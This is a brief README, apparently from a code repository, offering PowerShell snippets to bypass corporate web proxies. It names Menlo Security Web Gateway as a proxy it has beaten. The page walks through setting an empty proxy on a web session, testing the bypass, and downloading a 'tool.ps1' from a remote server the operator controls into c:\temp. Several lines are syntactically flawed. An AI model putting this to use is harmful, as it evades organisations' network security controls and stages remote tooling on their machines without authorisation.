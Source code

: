 # Proxy-Bypass using PowerShell.
When PowerShell is available and you need to bypass those annoying corp proxies, give this a try. A proxy bypass using powershell. Sucecssfully used to bypass Menlo Security Web Gateway but unfortunately it has failed on other proxy implementations. As we all know there is no silver bullet in this game!    

## PowerShell code for proxy bypass.
Paste as is into powershell session. 
```
$Proxy-New-object System.Net.WebProxy
$WebSession-new-object Microsoft.PowerShell.Commands.WebRequestSession
$WebSession.Proxy=$Proxy
```

## Test proxy bypass is working.
If working, you should get back a StatusCode: 200 and a bunch more content including headers etc.
```
Invoke-webrequest -Uri "https://www.google.com" -WebSession $WebSession
```

## Download scripts/tooling using bypass.
If all has gone well, use the bypass to download tooling from your server location. 
```
Invoke-webrequest -Method Get -Uri "https://ServerAddress/tool.ps1" -WebSession $WebSession -outfile c:\temp\tool.ps1
```
